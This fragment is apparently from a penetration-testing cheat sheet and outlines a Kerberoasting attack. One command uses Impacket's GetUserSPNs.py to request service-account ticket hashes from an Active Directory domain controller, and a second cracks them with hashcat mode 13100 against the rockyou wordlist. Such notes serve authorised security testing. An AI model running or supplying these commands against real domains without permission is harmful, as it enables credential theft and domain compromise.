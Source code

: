 Enumerate SPN hashes:
```bash
sudo GetUserSPNs.py <AD-domain>/<user>:<password> -dc-ip <dc-ip> -request
```

Crack the hash with hashcat:
```bash
hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt
```